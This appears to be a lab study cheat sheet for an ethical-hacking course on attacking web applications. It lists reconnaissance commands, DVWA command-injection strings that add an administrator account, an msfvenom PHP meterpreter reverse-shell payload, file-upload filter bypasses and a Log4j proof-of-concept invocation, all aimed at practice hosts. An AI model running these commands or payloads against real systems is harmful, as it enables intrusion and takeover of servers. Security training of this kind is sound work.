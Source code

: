 # Hacking webapplication

## Footprint the web infrastructure

- Perform web application reconnaissance using **Nmap** and **Telnet**  
`nmap -T4 -A -v [Target Web Application]`  
telnet www.moviescope.com 80  
    GET / HTTP/1.0

- Perform web application reconnaissance using **WhatWeb**  
    `whatweb -v [target web application]`

- Perform web spidering using **OWASP ZAP**  
    zaproxy --> Automated Scan  
    Spider - Active Scan - Alerts

- Detect load balancers using various tools  
    `dig yahoo.com`  
    `lbd yahoo.com`

- Identify web server directories using various tools  
    `nmap -sV --script=http-enum [target domain or IP address]`  
    `gobuster dir -u [Target Website] -w/home/attacker/Desktop/common.txt`  
    `python3 dirsearch.py -u http://www.moviescope.com`  
        -e extension  
        -x 403

- Perform web application vulnerability scanning using **Vega**  
    windows application  
    Start new scan

- Identify clickjacking vulnerability using **ClickjackPoc**  
    `python3 clickJackPoc.py -f domain.txt`

## Perform web application attacks

- Perform a brute-force attack using **Burp Suite**  
    1. Intruder
    2. Position -> clear
    3. Cluster bomb
    4. Add § before and after value
    5. Payloads -> Load

- Perform parameter tampering using **Burp Suite**
    Proxy -> Intercept

- Identify XSS vulnerabilities in web applications using **PwnXSS**
    <https://github.com/pwn0sec/PwnXSS>  
    `python3 pwnxss.py -u http://testphp.vulnweb.com`

- Exploit parameter tampering and XSS vulnerabilities in web applications  
    XSS payload: <script>alert("test")</script>

- Perform cross-site request forgery (CSRF) attack
    leekme plugin for wordpress

- Enumerate and hack a web application using **WPScan** and **Metasploit**  
    `wpscan --api-token [API Token] --url http://10.10.1.22:8080/CEH --enumerate u`  

    `use auxiliary/scanner/http/wordpress_login_enum`

- Exploit a remote command execution vulnerability to compromise a target web server  
    <https://github.com/digininja/DVWA>

```bash
lowering to low or medium DVWA
| hostname
| whoami
| tasklist
| Taskkill /PID [Process ID value of the desired process] /F
| dir C:\
| net user
| net user Test /Add
| net localgroup Administrators Test /Add
```

hard not use space after pipe

- Exploit a file upload vulnerability at different security levels  
    `msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine]LPORT=4444 -f raw`  

    EASY:  
    create a file  
    <http://10.10.1.22:8080//dvwa/hackable/uploads/upload.php>  

    MEDIUM:  
    as previous upload medium.php.jpg rename in burp to medium.php  

    HIGH:  
    FILE UPLOAD: add GIF98 before the payload save as jpeg  
    COMMAND INJECTION: |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php  

- Gain access by exploiting Log4j vulnerability  
    `docker build -t log4j-shell-poc .`
    `python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001`

## Detect Web Application Vulnerabilities using Various Web Application Security Tools

- Detect web application vulnerabilities using **N-Stalker** Web Application Security Scanner  
    windows software
